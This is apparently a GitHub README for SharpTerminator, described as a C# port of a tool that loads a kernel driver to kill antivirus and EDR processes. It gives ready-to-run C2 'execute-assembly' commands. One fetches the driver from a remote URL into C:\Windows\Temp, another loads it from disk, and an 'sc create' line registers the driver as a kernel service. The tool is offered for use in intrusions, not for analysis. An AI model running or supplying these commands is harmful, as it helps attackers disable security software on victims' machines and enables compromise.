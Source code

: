 # SharpTerminator

C# port of ZeroMemoryEx's Terminator, so all hail goes to him.

# Usage

You can download the driver from a remote URL using SharpTerminator and load it to terminate AV/EDR processes, or you can directly load it to the disk to perform the same operation.

When using Remote URL, the driver is downloaded to "C:\Windows\Temp" and then loaded from there.

In fact, there is no difference between them; if you don't want to use the upload function in your C2, you can use the other one.

Loading from remote url:
```
execute-assembly SharpTerminator.exe --url "http://remoteurl.com:80/Terminator.sys"
```
Loading from disk:
```
execute-assembly SharpTerminator.exe --disk "C:\path\to\driver\Terminator.sys"
```


### Download driver from remote url and terminate AV/EDR:

![sharpterminator-url](https://github.com/mertdas/SharpTerminator/assets/48562581/ded76930-780a-4ad0-bdf2-43f451be2e6c)


### Load driver from disk and terminate AV/EDR:

![sharpterminatsor-disk](https://github.com/mertdas/SharpTerminator/assets/48562581/ee37b11d-c803-48a9-ac97-0b0c17af1af7)

# Known Issue
If you get "Failed to register the process in the trusted list!" error you should add service manually:<br>
```
sc create Terminator binPath= "C:\path\to\driver.sys" type= kernel start= demand
```

# Credit
ZeroMemoryEx https://github.com/ZeroMemoryEx/Terminator<br>
Spyboy :)

